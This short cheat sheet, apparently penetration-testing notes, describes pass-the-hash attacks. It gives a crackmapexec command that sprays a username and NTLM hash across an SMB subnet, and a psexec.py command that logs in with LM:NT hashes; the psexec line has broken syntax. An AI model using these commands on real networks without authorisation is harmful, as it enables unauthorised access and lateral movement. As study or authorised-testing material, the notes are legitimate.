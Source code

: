 # Pass The Hash

We can pass the hash instead of trying to crack it.

## Crackmapexec
```sh
> crackmapexec smb 192.168.1.0/24 -u "<Username>" -H "<PasswordHash>" --local-auth
```

## psexec.py 
```sh
> psexec.py <username: "frank castle":@<IP Address -hashes <LM:NT>  
```